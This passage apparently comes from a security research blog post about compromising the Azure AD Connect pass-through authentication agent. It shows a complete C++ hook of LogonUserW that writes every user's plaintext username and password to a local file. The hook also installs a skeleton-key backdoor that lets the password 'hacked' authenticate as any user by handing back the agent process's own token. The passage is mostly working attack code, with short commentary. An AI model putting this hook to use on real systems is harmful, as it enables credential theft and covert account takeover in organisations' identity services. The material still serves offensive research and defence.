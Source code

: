 A little bit of testing reveals that returning either a fake token or no token causes the process to crash, so the program requires a valid token.

Where can we get a user token to pass to the function without generating one?

Well, since we’re already in the ***AzureADConnectAuthenticationAgentService.exe ***process, we can borrow its user token!

New version:

1. BOOL myLogonUserW(LPCWSTR lpszUsername, LPCWSTR lpszDomain, LPCWSTR lpszPassword, DWORD dwLogonType, DWORD dwLogonProvider, PHANDLE phToken)

2. {
3.  //Write to file
4.  ofstream myfile;
5.  myfile.open("c:\\temp\\beep.txt", std::ios_base::app);
6.
7.  string user = utf8_encode(lpszUsername);
8.  string pass = utf8_encode(lpszPassword);
9.
10.  //get time
11.  std::time_t result = std::time(nullptr);
12.  myfile << "[*] ";
13.  myfile << std::asctime(std::localtime(&result));
14.
15.  myfile << "Username: ";
16.  myfile << user << "\n";
17.  myfile << "Password: ";
18.  myfile << pass << "\n\n";
19.  myfile.close();
20.
21.  string hacked = "hacked";
22.
23.   if(hacked.compare(pass))
24.  {
25.  // Log the user in

26.   return LogonUserW(lpszUsername, lpszDomain, lpszPassword, dwLogonType, dwLogonProvider, phToken);

27.  }
28.   else
29.  {
30.  // Use Skeleton Key, return true
31.  OpenProcessToken(GetCurrentProcess(), TOKEN_READ, phToken);
32.   return true;
33.  }
34. }

By calling ***OpenProcessToken*** we populate the ***phToken*** variable with the process’s own token.

Works like a charm!

While every user can still connect with their own password, we can successfully authenticate as any user by using the password “hacked”.
